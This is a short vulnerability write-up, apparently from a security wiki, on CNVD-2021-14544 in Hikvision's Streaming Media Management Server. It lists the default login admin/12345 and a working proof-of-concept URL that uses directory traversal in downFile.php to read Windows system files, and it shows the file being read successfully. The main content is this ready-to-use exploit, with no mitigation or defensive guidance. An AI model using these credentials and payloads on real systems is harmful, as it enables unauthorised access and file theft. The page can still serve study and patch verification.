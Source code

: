 # HIKVISION Streaming Media Management Server A random file reading vulnerability in the background CNVD-2021-14544

## Vulnerability Description

There is a weak password vulnerability in the streaming media management server of Hangzhou Hikvision System Technology Co., Ltd., which can use the vulnerability to log in to the background to obtain sensitive information through file traversal vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Streaming Media Management Server</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows, the default account password is `admin/12345`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/hiv-5.png)



The POC is as follows, visit the following Url to download the system.ini file



```plain
https://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/hiv-6.png)



Successfully read `C:/windows/system.ini`